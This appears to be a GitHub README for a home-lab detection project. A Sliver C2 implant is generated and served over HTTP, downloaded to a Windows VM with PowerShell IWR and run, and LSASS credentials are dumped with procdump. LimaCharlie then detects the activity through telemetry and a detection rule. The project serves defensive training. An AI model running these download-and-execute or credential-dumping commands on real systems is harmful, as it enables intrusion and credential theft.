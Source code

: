 <h1>Endpoint Detection and Response</h1>

 
 <h2>Description</h2>
In this Project, attacks are simulated using a virtual Windows and Linux machine and the attack is monitored, detected and blocked using the Endpoint Detection and Response agent
called LimaCharlie.Through LimaCharlie, simulated attacks are detected and blocked using detection/block rules.<br />


<h2>Languages and Utilities Used</h2>

- <b>PowerShell</b> 
- <b>Command Line</b>
- <b>Sliver</b>
- <b>Sysmon</b>
- <b>LimaCharlie</b>
- <b>Secure Shell(SSH)</b>

<h2>Environments Used </h2>

- <b>VMware Workstation Pro 17</b>
- <b>Windows 11 Enterprise</b>
- <b>Linux Ubuntu(Server Version)</b> 


<h2>Project walk-through:</h2>

The setup for the VM environment consists of many steps.  For the detailed steps, a link is provided to Eric Capuano's blog <b>So you want to be a SOC Analyst?(Part1)</b> <a href=https://blog.ecapuano.com/p/so-you-want-to-be-a-soc-analyst-part>here</a>

The Summary of the VM Environment is as follows:
A.  Establishment of a Windows Virtual Machine with Windows Defender disabled/suppressed and
    and Sysmon installed. Sysmon will provide telemetry through LimaCharlie which is also installed
    on the Windows VM.

B.  Linux Virtual Machine (Ubuntu Server Version) with Sliver Command and Control framework installed.
    Sliver will be used to deliver malware to the Windows VM.

<p align="left"><b>Attack & Monitor</b><br/>

1.  In Linux Machine:
    Drop into root shell and change directory to Sliver location--> cd /opt/sliver

2.  Launch Sliver C2 Agent-->sliver-server

     ![image](https://github.com/4cysec/Endpoint-Detection-and-Response/assets/149924544/df71e29b-f3c4-4ca1-a42d-ce608735378f)

3.  Generate C2 session payload with Sliver using Linux Machine’s IP address obtained during the establishment of the Virtual Machines mentioned above.

     --> generate --http  Linux IP Address --save /opt/sliver

    ![image](https://github.com/4cysec/Endpoint-Detection-and-Response/assets/149924544/5bdaed61-3a37-45bc-b754-ec40db806e76)

    Note that MASSIVE_DEPRESSIVE.EXE is the payload/implant name in my case.

4.  Within the opt/sliver directory, we use the following python script to execute a temporary server
    --> python3 -m http.server 80

5. Switch over to Windows Virtual Machine while server is established in Linux Machine
   and launch an Administrative PowerShell console

6. Within the Administrative Powershell Console we run the following command to simulate
   the downloading of the C2 payload from the Linux Attacker Machine.
   
   --> IWR -Uri http://Linux IP/payloadname.exe -Outfile C:\Users\User\Downloads\payloadname.exe

7.  Now that the payload has been downloaded on the Windows Machine, we can execute the Command
    and Control Session as an attacker through the Linux Machine.
    
   a.  Using the SSH session on the Linux server We will relaunch Sliver with command --> sliver-server
   
   b.  Then we start the listener with -->http

![image](https://github.com/4cysec/Endpoint-Detection-and-Response/assets/149924544/a84825cd-e9e8-4a03-9b60-08006dc91fff)

8.  Switching over to the Windows Machine, we then execute the payload with the following command using Admin Powershell Prompt:
    --> C:\Users\User\Downloads\<your_C2-implant>.exe
    Note that the established session is shown on the Linux Machine as shown below.

![image](https://github.com/4cysec/Endpoint-Detection-and-Response/assets/149924544/6c9c5a86-cfa2-431a-849a-1277643ca12a)

Various attacks can be done through the established session. However, we will proceed to monitoring and detecting this attack in
the Lima Charlie tool.

9.  We can now look for our attack in the Lima Charlie web application. Please note that Lima Charlie was configured after
    the establishment of the virtual machines. The detailed steps are in the link above.

    --> Sensor List
        --> Hostname(windev2305eval.localdomain)

![image](https://github.com/4cysec/Endpoint-Detection-and-Response/assets/149924544/a7849e22-66e5-4caa-a8e5-988e51a4e759)

    From here we navigate to -->processes and we find our malware "MASSIVE_DEPRESSIVE.exe"
    Note that there is no green check indicating a signature for the malware. A lack of signature can indicate a malicious
    file/process.

    ![image](https://github.com/4cysec/Endpoint-Detection-and-Response/assets/149924544/985161fa-1ac7-46d6-8db9-a11361fb13d6)

  Navigating just below Processes to --> Network we can see the malware and its source IP and other information.

  ![image](https://github.com/4cysec/Endpoint-Detection-and-Response/assets/149924544/fd77e80b-4e11-4adf-a06a-296534ed5bfc)

  Below the Network we may go into -->File System and search for the malware's file path.

![image](https://github.com/4cysec/Endpoint-Detection-and-Response/assets/149924544/9631c089-114f-4ba9-9d1a-71fe5bd3a79a)

In the same left menu, we can click on Timeline and monitor near real-time telemetry of the host system.  We can find the
event and its processes and the time of its processes.

![image](https://github.com/4cysec/Endpoint-Detection-and-Response/assets/149924544/dfffca45-e5a7-44be-ae0a-436923b90d1d)




<p align="left"><b>Attack & Detection with Rules</b><br/>

Now we will attack the Windows VM and detect the attack with a detection rule.

1.  First we reestablish the Sliver malware's attack session with the Windows VM
    and look for the privileges we have on the Windows machine through the C2 agent.
    ---> use[session id]
         -->getprivs
      And we check for "SeDebugPrivilege" which allows for privilege escalation in attacks.

    ![image](https://github.com/4cysec/Endpoint-Detection-and-Response/assets/149924544/e34dfa4d-7b5b-4512-95b8-6826f36f8f8a)

2.  We will use an attack that threat actors use for stealing credentials from a system.
 Using the command -->procdump -n lsass.exe -s lsass.dmp
We can find the attack in the Timeline section in Lima Charlie by filtering Sensitive Process Access

![image](https://github.com/4cysec/Endpoint-Detection-and-Response/assets/149924544/6a40730c-c45f-4ec5-9274-48ca26c92740)

3. Now we will write a detection rule through Lima Charlie.
   Clicking on the event opens an event panel with information.
   To enter a detection rule, we click on the box shown below
   ![image](https://github.com/4cysec/Endpoint-Detection-and-Response/assets/149924544/5a58c133-5493-4b7e-84c5-a5bb4d81763e)

   In the "Detect" box we remove the previous detection contents from the box and entering our rule
   --> event: SENSITIVE_PROCESS_ACCESS
       op: ends with
       path: event/*/TARGET/FILE_PATH
       value: lsass.exe

       The above specifies detecting an event of SENSITIVE PROCESS ACCESS with the process having lsass.exe.

        In the "Respond" box we add -->- action: report
                                         name: LSASS access


![image](https://github.com/4cysec/Endpoint-Detection-and-Response/assets/149924544/0972d6f7-21b0-4e06-884c-edbef1dee968)


 This will prompt Lima Charlie to provide a detection report upon detection. Click Save and name the rule.          
    


    
<!--
 ```diff
- text in red
+ text in green
! text in orange
# text in gray
@@ text in purple (and bold)@@
```
--!>
